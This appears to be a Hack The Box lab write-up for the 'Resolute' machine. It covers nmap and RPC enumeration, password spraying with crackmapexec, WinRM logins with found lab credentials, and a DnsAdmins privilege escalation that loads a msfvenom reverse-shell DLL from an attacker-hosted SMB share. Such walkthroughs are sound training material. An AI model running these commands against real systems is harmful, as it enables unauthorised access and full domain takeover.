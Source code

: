 # [Resolute](https://app.hackthebox.com/machines/Resolute)

```bash
nmap -p-  --min-rate 10000 10.10.10.169 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, I need to add `megabank.local` into `/etc/hosts` file for resolving ip addresses.

I try to make enumeration for `SMB` via `smbclient` command but it doesn't work for null credentials.
```bash
smbclient -N -L \\10.10.10.169
```

![alt text](img/image-2.png)


But I can't find anything as interested, let's look at `RPC` to find sensitive and interesting information.

```bash
rpcclient -U "" -N 10.10.10.169
```

![alt text](img/image-3.png)


Let's run `querydispinfo` command to get information about all users on this domain.

![alt text](img/image-4.png)


For `marco` user, I can see that `Description` contains default password called `Welcome123!`, but this credential doesn't work for `marco` user.

```bash
crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!'
```

![alt text](img/image-5.png)



Let's get all users from `RPC` by running `enumdomusers` and brute-force this password for them by using `crackmapexec`

```bash
crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```

![alt text](img/image-6.png)


From this image, we see that `melanie` user forgot to change his password.

melanie: Welcome123!


Let's connect into machine via this credentials by using `evil-winrm` command. But I need to specify port number to `5985` as because `WinRM` protocol is running on this port for our target.

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

user.txt

![alt text](img/image-7.png)


I find `hidden` file which may contain sensitive info on machine by running `gci -force` on `C:\PSTranscripts\20191203` directory.

![alt text](img/image-8.png)


I found `ryan` user's password as `hard-coded` on this `.txt` file.

![alt text](img/image-9.png)


ryan: Serv3r4Admin4cc123! 


Let's check this credentials via `crackmapexec`.
```bash
crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!' 
```

![alt text](img/image-10.png)


Let's login into machine via this credentials by using `evil-winrm`.

![alt text](img/image-11.png)


While I running `whoami /groups` to recon this user that belongs to which groups.

From output, you can see this user belongs `DnsAdmins` group which is so sensitive thing.

I use [this](https://app.hackthebox.com/machines/Resolute) for abusing membership of `DnsAdmins` group.


First, I need to create malicious `.dll` file which gives me `reverse shell`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=1337 -f dll -o dr4ks.dll
```

![alt text](img/image-12.png)


Then, we need to open `SMB share` to serve this file.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```

![alt text](img/image-13.png)

Now, I need to config `DNS` service via `dnscmd` command.
```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.18\share\dr4ks.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

![alt text](img/image-14.png)



Hola! I got reverse shell from port `1337`.

![alt text](img/image-15.png)


root.txt

![alt text](img/image-16.png)